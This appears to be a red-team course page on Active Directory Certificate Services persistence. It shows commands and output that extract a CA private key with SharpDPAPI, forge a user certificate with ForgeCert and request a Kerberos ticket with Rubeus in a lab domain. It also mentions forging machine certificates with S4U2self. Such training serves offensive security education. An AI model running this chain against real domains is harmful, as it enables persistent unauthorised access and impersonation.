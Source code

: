 In larger organisations, the AD CS roles are installed on separate servers and not on the domain controllers themselves.  Often times, they are also not treated with the same sensitivity as DCs.  So, whereas only EAs and DAs can access/manage DCs, "lower level" roles such as server admins can access the CAs.  Although this can be seen a privilege escalation, it's just as useful as a domain persistence method.

Gaining local admin access to a CA allows an attacker to extract the CA private key, which can be used to sign a forged certificate (think of this like the krbtgt hash being able to sign a forged TGT).  The default validity period for a CA private key is 5 years, but this can be set to any value during setup, sometimes as high as 10+ years.

Once on a CA, [SharpDPAPI](https://github.com/GhostPack/SharpDPAPI) can extract the private keys.
```
beacon> run hostname
dc-2

beacon> getuid
[*] You are NT AUTHORITY\SYSTEM (admin)

beacon> execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Release\SharpDPAPI.exe certificates /machine
```
  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/73c/76e/766/sub-ca-key.png)

  

Save the private key and certificate to a `.pem` file and convert it to a `.pfx` with openssl.  Then, build the forged certificate with [ForgeCert](https://github.com/GhostPack/ForgeCert).
```
PS C:\Users\Attacker> C:\Tools\ForgeCert\ForgeCert\bin\Release\ForgeCert.exe --CaCertPath .\Desktop\sub-ca.pfx --CaCertPassword pass123 --Subject "CN=User" --SubjectAltName "nlamb@cyberbotic.io" --NewCertPath .\Desktop\fake.pfx --NewCertPassword pass123
CA Certificate Information:
  Subject:        CN=sub-ca, DC=dev, DC=cyberbotic, DC=io
  Issuer:         CN=ca, DC=cyberbotic, DC=io
  Start Date:     8/15/2022 4:06:13 PM
  End Date:       8/15/2024 4:16:13 PM
  Thumbprint:     697B1C2CD65B2ADC80C3D0CE83A6FB889B0CA08E
  Serial:         13000000046EF818036CF8C99F000000000004

Forged Certificate Information:
  Subject:        CN=User
  SubjectAltName: nlamb@cyberbotic.io
  Issuer:         CN=sub-ca, DC=dev, DC=cyberbotic, DC=io
  Start Date:     10/5/2022 1:24:23 PM
  End Date:       10/5/2023 1:24:23 PM
  Thumbprint:     0CF404F5D1534854BA5EDEC5953ED7B7BE96C3A8
  Serial:         00978D5E506AE605589E43F21D17E56671

Done. Saved forged certificate to .\Desktop\fake.pfx with the password 'pass123'
```
  

Even though you can specify any SubjectAltName, the user does need to be present in AD.  We can now use Rubeus to request a legitimate TGT with this forged certificate.
```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:nlamb /domain:dev.cyberbotic.io /enctype:aes256 /certificate:MIACAQ[...snip...]IEAAAA /password:pass123 /nowrap
```
  

We're not limited to forging user certificates; we can do the same for machines.  Combine this with the S4U2self trick to gain access to any machine or service in the domain.